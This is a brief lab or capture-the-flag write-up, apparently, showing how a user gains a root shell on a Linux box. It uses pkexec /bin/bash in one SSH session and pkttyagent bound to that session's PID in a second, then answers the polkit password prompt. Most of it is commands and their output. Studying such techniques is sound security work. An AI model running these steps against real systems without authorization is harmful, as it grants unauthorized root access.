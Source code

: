 `pkexec` allows an authorized user to execute commands as another user.
we could have used pkexec /bin/bash to spawn a shell as root.

we needed to create two SSH connections as user

. On the first SSH session
```
echo $$
2178 (pid)
```  
. second SSH session
```
pkttyagent -p 2178 (pid)
```

. first SSH session
```
pkexec /bin/bash
```

. second SSH session
```
==== AUTHENTICATING FOR org.freedesktop.policykit.exec ===
Authentication is needed to run `/bin/bash' as the super user
Authenticating as: user
Password:

==== AUTHENTICATION COMPLETE ===
Connection to 10.10.66.240 closed by remote host.
```
. first SSH session
```
root@ubuntu:~# id
uid=0(root) gid=0(root) groups=0(root)
```
